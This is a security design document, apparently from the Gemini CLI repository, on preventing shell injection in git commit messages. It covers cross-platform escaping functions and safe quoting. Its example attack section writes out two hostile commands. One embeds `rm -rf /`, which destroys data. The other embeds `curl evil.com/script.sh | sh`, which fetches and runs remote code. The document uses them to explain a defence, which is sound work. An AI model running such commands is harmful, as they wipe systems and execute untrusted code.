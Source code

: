 # Shell Injection Prevention in Gemini CLI

## Overview

This document describes the security measures implemented in Gemini CLI to prevent shell injection vulnerabilities, particularly in git commit messages and other shell commands.

## The Vulnerability

When constructing shell commands with user-provided input, special characters can be interpreted by the shell, leading to command injection. This is particularly dangerous with:

- **Backticks (`)**: Execute commands and substitute their output
- **Dollar signs ($)**: Variable expansion and command substitution with `$()`
- **Semicolons (;)**: Command chaining
- **Pipes (|)**: Command piping
- **Redirections (>, <)**: File operations

### Example Attack Vector

```bash
# Dangerous - backticks execute embedded commands
git commit -m "Fix `rm -rf /` issue"  # Would execute rm command!

# Dangerous - command substitution
git commit -m "Update $(curl evil.com/script.sh | sh)"
```

## The Solution

### 1. Cross-Platform Shell Escape Utility

We've implemented a robust shell escaping utility in `packages/core/src/utils/shellEscape.ts` that automatically detects the operating system and applies appropriate escaping:

#### POSIX Systems (Linux/macOS)
```typescript
function escapeShellArgPosix(str: string): string {
  // Empty strings become ''
  if (str === '') return "''";
  
  // Check for special characters
  const needsEscaping = /[^A-Za-z0-9_\-.\/]/.test(str);
  
  if (!needsEscaping) return str;
  
  // Use single quotes to prevent ALL expansions
  // Escape single quotes by ending quote, adding \', and starting new quote
  return "'" + str.replace(/'/g, "'\\''") + "'";
}
```

#### Windows Systems (cmd.exe)
```typescript
function escapeShellArgWindows(str: string): string {
  // Empty strings become ""
  if (str === '') return '""';
  
  // Check for special characters
  const needsEscaping = /[^A-Za-z0-9_\-.]/.test(str);
  
  if (!needsEscaping) return str;
  
  let escaped = str;
  // Escape cmd.exe metacharacters with ^
  escaped = escaped.replace(/([&|<>^])/g, '^$1');
  // Double up quotes
  escaped = escaped.replace(/"/g, '""');
  // Double percent signs
  escaped = escaped.replace(/%/g, '%%');
  
  return '"' + escaped + '"';
}
```

### 2. AI Prompt Instructions

The AI model is instructed to:
- Always use single quotes for shell arguments containing special characters
- Properly escape single quotes within messages
- Never use double quotes for user-provided content (as they allow some expansions)

### 3. Safe Usage Examples

```bash
# Safe - single quotes prevent all expansions
git commit -m 'Fix `ComponentName` rendering issue'

# Safe - properly escaped single quote
git commit -m 'Fix Mary'\''s code'

# Safe - complex message with multiple special characters
git commit -m 'Update code for `$USER` @ $(date)'
```

## Implementation Details

### Why Single Quotes?

Single quotes in bash/sh provide the strongest protection:
- **Double quotes** (`"`) still allow: `$`, `` ` ``, `\`, `!` expansions
- **Single quotes** (`'`) prevent ALL expansions except for the single quote itself
- **Escaping single quotes**: Use `'\''` pattern (end quote, escaped quote, start quote)

### Testing

Comprehensive test cases cover:
- Command substitution attempts (backticks and `$()`)
- Variable expansion attempts
- Special characters and operators
- Unicode and international characters
- Edge cases (empty strings, only special characters)

## Best Practices for Contributors

When adding new shell command features:

1. **Always escape user input**: Use `escapeShellArg()` for any user-provided content
2. **Prefer structured APIs**: When possible, use Node.js APIs instead of shell commands
3. **Validate input**: Check for malicious patterns before processing
4. **Test thoroughly**: Add test cases for security scenarios
5. **Document security considerations**: Note any security implications in code comments

## Verification

To verify the fix works correctly:

```bash
# Test with the escaping utility
npm test packages/core/src/utils/shellEscape.test.ts

# The AI should now properly escape:
# Input: "Fix `bug` in code"
# Output: git commit -m 'Fix `bug` in code'
```

## Security Audit Checklist

- [x] All user input is escaped before shell execution
- [x] Single quotes used for maximum protection
- [x] Comprehensive test coverage for edge cases
- [x] AI model instructed on proper escaping
- [x] Documentation provided for future contributors
- [x] No use of `eval` or similar dangerous constructs

## References

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Bash Manual - Quoting](https://www.gnu.org/software/bash/manual/html_node/Quoting.html)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)

---

*Last updated: December 2024*
*Security contact: security@gemini-cli.dev*
